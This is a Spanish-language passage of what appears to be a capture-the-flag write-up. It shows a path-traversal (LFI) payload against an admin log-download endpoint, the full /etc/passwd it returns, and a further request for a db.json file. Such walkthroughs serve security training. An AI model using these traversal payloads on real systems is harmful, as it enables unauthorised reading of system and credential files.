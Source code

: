 Vemos que esta llamando a un parametro en concreto para descargar un archivo, vamos a probar si esto pudiera ser vulnerable a un `LFI` de esta forma:

```
URL = http://<IP>:8000/admin/get_system_log?log_identifier=../../../../etc/passwd
```

Veremos que efectivamente nos descarga un archivo y si lo leemos:

```
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
_apt:x:42:65534::/nonexistent:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:998:998:systemd Network Management:/:/usr/sbin/nologin
usbmux:x:100:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
systemd-timesync:x:997:997:systemd Time Synchronization:/:/usr/sbin/nologin
messagebus:x:102:102::/nonexistent:/usr/sbin/nologin
systemd-resolve:x:992:992:systemd Resolver:/:/usr/sbin/nologin
pollinate:x:103:1::/var/cache/pollinate:/bin/false
polkitd:x:991:991:User for polkitd:/:/usr/sbin/nologin
syslog:x:104:104::/nonexistent:/usr/sbin/nologin
uuidd:x:105:105::/run/uuidd:/usr/sbin/nologin
tcpdump:x:106:107::/nonexistent:/usr/sbin/nologin
tss:x:107:108:TPM software stack,,,:/var/lib/tpm:/bin/false
landscape:x:108:109::/var/lib/landscape:/usr/sbin/nologin
fwupd-refresh:x:989:989:Firmware update daemon:/var/lib/fwupd:/usr/sbin/nologin
web:x:1001:1001::/home/web:/bin/bash
sshd:x:109:65534::/run/sshd:/usr/sbin/nologin
snapd-range-524288-root:x:524288:524288::/nonexistent:/usr/bin/false
snap_daemon:x:584788:584788::/nonexistent:/usr/bin/false
mark:x:1002:1002::/home/mark:/bin/bash
_laurel:x:101:988::/var/log/laurel:/bin/false
dhcpcd:x:110:65534:DHCP Client Daemon,,,:/usr/lib/dhcpcd:/bin/false
```

Con esto confirmamos que efectivamente si hay un `LFI`.

Despues de un rato investigando por los `paths` encontramos un `db.json` de esta forma:

```
URL = http://<IP>:8000/admin/get_system_log?log_identifier=../db.json
```
